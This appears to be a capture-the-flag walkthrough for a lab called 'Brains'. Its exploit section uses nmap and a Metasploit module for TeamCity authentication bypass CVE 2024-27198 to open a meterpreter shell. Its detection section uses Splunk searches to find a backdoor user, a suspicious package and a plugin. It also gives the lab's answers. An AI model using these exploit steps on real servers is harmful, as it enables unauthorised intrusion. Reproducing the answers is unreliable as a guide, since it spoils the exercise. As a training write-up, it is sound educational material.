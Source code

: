 # Brains walkthrough (easy)

## Exploit

http (port 80) on machine is under maintenance

`nmap -A -O <machine ip>`

reveals Jetbrains TeamCity login page on TCP 50000

Search for Teamcity vulnerabilities reveals CVE 2024-27198 authentication bypass

Fire up msfconsole

```
search teamcity

use 4

setg RHOSTS machine ip
setg RPORT 50000
exploit
```

Successful exploit opens meterpreter shell on target

flag can be found at /home/ubuntu/flag.txt

## Detection

### What is the name of the backdoor user which was created on the server after exploitation?


We are looking for user accounts so let's start by just reviewing anything that references users

Splunk search  

```
index=* user
```

Closing in on the events of July 4, 2024 we see a pretty blatant username pop up.


`eviluser`


### What is the name of the malicious-looking package installed on the server?

Since this is referencing an installed package let's review the dpkg logs to see what's been installed

```
index=* source=/var/log/dpkg.log
```

Focusing on the same timeframe that the "eviluser" account was created, there is one installed package with an interesting name 

`datacollector `

### What is the name of the plugin installed on the server after successful exploitation?

Once again, a simple search for "plugin" related entries will reveal the answer, which is especially apparent by singling out the events of 7/4/24 as there is only one entry

```
index=* plugin 
```

`AyzzbuXY.zip`